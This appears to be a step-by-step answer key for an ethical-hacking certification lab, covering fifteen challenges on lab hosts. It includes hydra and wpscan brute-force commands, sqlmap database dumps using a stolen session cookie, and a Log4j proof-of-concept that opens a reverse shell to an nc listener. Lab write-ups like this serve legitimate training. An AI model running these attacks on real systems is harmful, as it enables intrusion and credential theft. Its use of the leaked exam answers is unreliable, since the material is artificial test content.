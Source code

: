 **Challenge** 1:
An attacker tried to perform session hijacking on a machine from 172.30.10.0/24 subnet. An incident handler found a packet capture file $_Jack.pcapng obtained from the victim machine which is stored in Documents folder of EH Workstation -1. You are assigned to analyse the packet capture file and determine the IP of the victim machine targeted by the attacker. (Format: NNN.NN.NN.NNN)
- open file in wireshark
- you can easily find the victim ip

Answer: 172.30.10.200

**Challenge** 2:
An attacker tried to intercept a login session by intercepting the http traffic from the victim machine. The security analyst captured the traffic and stored it in Downloads folder of EH Workstation -1 as Intercep_$niffer.pcapng. Analyse the pcap file and determine the credentials captured by the attacker. (Format: aaa/aaaa)
- Open file in wireshark
- filter http.request.method == POST 
- search for post login.aspx in list and extend the HTML Form

Answer: lee/test

**Challenge** 3:
A honeypot has been set up on a machine within the 192.168.10.0/24 subnet to monitor and detect malicious network activity. Your task is to analyze the honeypot log file, cowrie.log, located in the Downloads folder of EH Workstation -2, and determine the attacker IP trying to access the target machine. (Format: NNN*NN*NN*NN)
- Open file in pluma
- Search for ip with multiple login attemps

Answer: 172.30.10.99

**Challenge** 4:
Conduct a footprinting analysis on the target website www.certifiedhacker.com to identify the web server technology used by the site.(Format: Aaaaaa)
- whatweb certifiedhacker.com

Answer: Apache

**Challenge** 5:
You’re a cybersecurity investigator assigned to a high-priority case. Martin is suspected of engaging in illegal crypto activities, and it’s believed that he has stored his crypto account password in a file named $ollers.txt. Your mission is to crack the SSH credentials for Martin’s machine within the 192.168.10.0/24 subnet and retrieve the password from the $ollers.txt file. (Hint: Search in the folders present on the Desktop to find the target file) (Format: aNaa**NNNNNAA*)
- nmap -p 22 192.168.10.0/24 --open
- hydra -l Martin -P password.txt 192.168.10.101
- Password: qwerty1234
- ssh Martin@192.168.10.101   enter password and get the file

Answer: i2tr&^72546HJ*

**Challenge** 6:
Attackers have identified a vulnerable website and stored the details of this website on one of the machines within the 192.168.10.0/24 subnet. As a cybersecurity investigator you have been tasked to crack the FTP credentials of user nick and determine the ID of the domain. The information you need has been gathered and stored in the w_domain.txt file. (Format: NNNNNNNNNN)
- Use same procedure in Enage 2 **Challenge** 1 (ftp 192.168.10.111  and password in apple)
- get W_domain.txt

Answer: 7867721010

**Challenge** 7:
You have identified a vulnerable web application on a Linux server at port 8080. Exploit the web application vulnerability, gain access to the server and enter the content of RootFlag.txt as the answer. (Format: Aa*aaNNNN)

- First find the ip hosting website in port 8080 using nmap. Then do further steps
- In home execute 
- tar -xf jdk-8u202-linux-x64.tar.gz
- mv jdk1.8.0_202 /usr/bin
- cd log4j-shell-poc
- pluma poc.py
- Update the JDK Path in the Poc.py file
- Change Line no: 62, replace jdk1.8.0_20/bin/javac with "/usr/bin/jdk1.8.0_202/bin/javac"
- Change Line no: 87, replace jdk1.8.0_20/bin/java with "/usr/bin/jdk1.8.0_202/bin/java"
- Change Line no: 99, replace jdk1.8.0_20/bin/java with "/usr/bin/jdk1.8.0_202/bin/java"
- execute this in seperate terminal [ nc -lvp 9001]
- python3 poc.py --userip {ip of attacker pc} --webport 8080 --lport 9001
- Copy the [send this : value to be copied] from the output of previous command
- paste in username box and type any password in password box, click login
- Reverse shell connected in separate terminal where nc is listening
- type cat RootFlag.txt to view answer
- (If not connect to reverse shell reload the website and check the path and try again )

Answer: Ch@mp2022


**Challenge** 8:
You are a penetration tester assigned to a new task. A list of websites is stored in the webpent.txt file on the target machine with the IP address 192.168.10.101. Your objective is to find the Meta-Author of the website that is highlighted in the list. (Hint: Use SMB service) (Format: AA-Aaaaaaa)
- Connect to the ip with password found in **Challenge** 5
- get file from music folder of user Martin
- whatweb "url"

Answer: EC-Council

**Challenge** 9:

You have recently joined GoodShopping Inc. as a web application security administrator. Eager to understand the security landscape of the company’s website, www.goodshopping.com, you decide to investigate the security updates that have been made over time. Your specific task is to identify the attack category of the oldest Common Vulnerabilities and Exposures (CVEs) affected the website. (Format: aaaaa*aaaa aaaaaaaaaa (AAA) )
- I found manually you can use Owasp zap or open vas or vega to confirm 

Answer: cross-site scripting (XSS)

**Challenge** 10:
You are a web penetration tester hired to assess the security of the website www.goodshopping.com. Your primary task is to identify the type of security policies is missing to detect and mitigate Cross-Site Scripting (XSS) and SQL Injection attacks. (Format: Aaaaaaa Aaaaaaaa Aaaaaa)
- Run Atomated scan with OWASP ZAP

Answer: Content Security Policy

**Challenge** 11:
You are part of a cybersecurity team investigating an internal website that has been copied from a legitimate site without authorization. One of your teammates, acting as a spy, has scanned the website using a smart scanner within the subnet 192.168.10.0/24. Your task is to identify the number of Directory Listing of Sensitive Files on this website. The report, named w_report.pdf, is available on the target machine.(Hint: He remembered the OS as Windows Server 19 while scanning the website) (Format: NN)
- Use nmap to find Windows server 2019 inside 192.168.10.0/24 and brutefore that ip
- hydra -L user.txt -P rockyou.txt 192.168.10.144 ftp
- username: Parker and Password: Passw0rd@1234
- Access ftp and get w_report.txt
- open the report and read the site address
- Scan that website with Smart Scanner takes upto 30 min
- Scroll results to see Directory Listing of Sensitive Files.
- It shows 37 Approx but the answer is +/-1

Answer: 36

**Challenge** 12:
Perform a bruteforce attack on www.cehorg.com and find the password of user adam. (Format: aaaaaaNNNN)
- wpscan --url http://www.cehorg.com:8080/CEH/wp-login.php -U adam -P password.txt
- use password list in desktop

Answer: orange1234

**Challenge** 13:
As a cybersecurity analyst, your task is to identify potential vulnerabilities on the moviescope.com website. Your manager has requested a specific number of risk categories. The required HTML file is located on EH Workstation 1. (Format: N)
- Open html file inside videos folder
- count the no of risk with value 1

Answer: 3

**Challenge** 14:
Perform a SQL Injection attack on www.moviescope.com and find out the number of users available in the database. (Format: N)
- Use credentials found in **Challenge** 2 to login.
- Copy the cookie value of user session lee in inspect element console, type document.cookie
- sqlmap -u "http://movies.cehorg.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" --dbs
- sqlmap -u "http://movies.cehorg.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moveiscope --tables
- sqlmap -u "http://movies.cehorg.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moviescope -T user-Login --dump

Answer: 5

**Challenge** 15:
Perform a SQL Injection vulnerability scan on the target website www.moviescope.com and determine the WASC ID for SQL Injection (Format: NN)
- Search for WASC ID for SQL Injection in google

Answer: 19

